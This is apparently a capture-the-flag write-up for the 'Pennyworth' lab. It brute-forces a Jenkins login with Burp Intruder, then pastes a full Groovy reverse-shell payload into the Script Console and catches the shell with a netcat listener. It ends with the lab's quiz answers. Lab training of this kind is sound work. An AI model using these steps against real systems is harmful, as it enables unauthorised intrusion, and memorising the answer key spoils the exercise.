

# Pennyworth      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```


Only `http` service is running. Port `8080/tcp`.

After pasting `http://{target ip}:8080/` into the browser we can see website.



### Burpsuite

Before trying `SQL Injection` or some other attacks, let's try to brute force credentials first.

Intercept the request.


Send it to `Intruder` using `Ctrl + I` combination.

Mark `test` after password and click `Add §` icon.

To save your time, let's start enumerating with `root` as `username`.


Go to `Payloads` section and in `Payload settings` load payload which you want to use.


If all of the above is done press `Start attack`.


We can see that the password is `password`.

So our credentials are:

```
root:password
```

Try to log in.


We are in `Administrator` pannel.


In `Manage Jenkins` section there is `Script Console`.


`Jenkins Script Console` is a powerful feature in `Jenkins`, which is a popular open-source automation server used for continuous integration and continuous delivery (CI/CD). The `Script Console` allows administrators to execute `Groovy` scripts directly within the `Jenkins` environment. This feature provides a way to automate and manage `Jenkins` instances programmatically. Using the `Script Console`, administrators can perform complex automation tasks and administrative actions by leveraging `Groovy`, a scripting language that is similar to Java but more concise and flexible. The scripts have direct access to the Jenkins API, allowing interaction with all aspects of the `Jenkins` server, such as job configurations, build triggers, and system settings. Commands entered into the `Script Console` are executed in real-time, making it a powerful tool for immediate changes and troubleshooting.

Given our access to this, we can try to execute a command that will give us a `reverse shell` back to our local machine.

### Reverse Shell and Netcat 

A `reverse shell` is a method used by attackers to gain remote access to a target machine. In this setup, the target machine initiates a connection back to the attacker's machine, which is listening for incoming connections. This allows the attacker to execute commands on the target machine remotely. `Reverse shells` are often used to bypass firewalls and security measures, as many networks allow outgoing connections, making it easier for the attacker to establish a connection without being blocked. This technique is commonly employed in hacking and penetration testing to control compromised systems.

To create `reverse shell` I almost always use this site: https://www.revshells.com/

To do this, we need `ip address` of our `tun0` interface as we are connected through VPN.

Type:

```
ip a | grep tun0
```


If you have it, paste the `ip address` in the `ip` box and the port number you have selected in the `Port` box.


Remember to select `Groovy`.

It should look like this:

```
String host="{your tun0 ip}";int port={port of your choice};String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Payload is ready.

Now it's time to start our `netcat` listener.

Type:

```
nc -lvnp {port you have chosen}
```

and press `Enter`

`-l` - Tells netcat to listen for an incoming connection rather than initiating an outbound connection.

`-v` - Enables verbose mode, which provides detailed output about the connection process, making it easier to debug.

`-n` - Prevents DNS lookup, allowing netcat to use numeric IP addresses and port numbers directly, which speeds up the connection process.

`-p` - Specifies the port number on which netcat should listen for incoming connections.

Finally, we can execute our reverse shell command.


Paste it into ` Script Console` and press `Run`.

Now we can go back to our `netcat` listener. We should successfully connect.


### Get the flag

Flag must be somewhere there.


### Paste the flag


## Answers

### Task-1: What does the acronym CVE stand for?

Common Vulnerabilities and Exposures

### Task-2: What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?

confidentiality, integrity, availability

### Task-3: What is the version of the service running on port 8080?

Jetty 9.4.39.v20210325

### Task-4: What version of Jenkins is running on the target?

2.289.1

### Task-5: What type of script is accepted as input on the Jenkins Script Console?

Groovy

### Task-6: What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?

cmd.exe

### Task-7: What is a different command than "ip a" we could use to display our network interfaces' information on Linux?

ifconfig

### Task-8: What switch should we use with netcat for it to use UDP transport mode?

-u

### Task-9: What is the term used to describe making a target host initiate a connection back to the attacker host?

reverse shell

### Submit root flag

GG.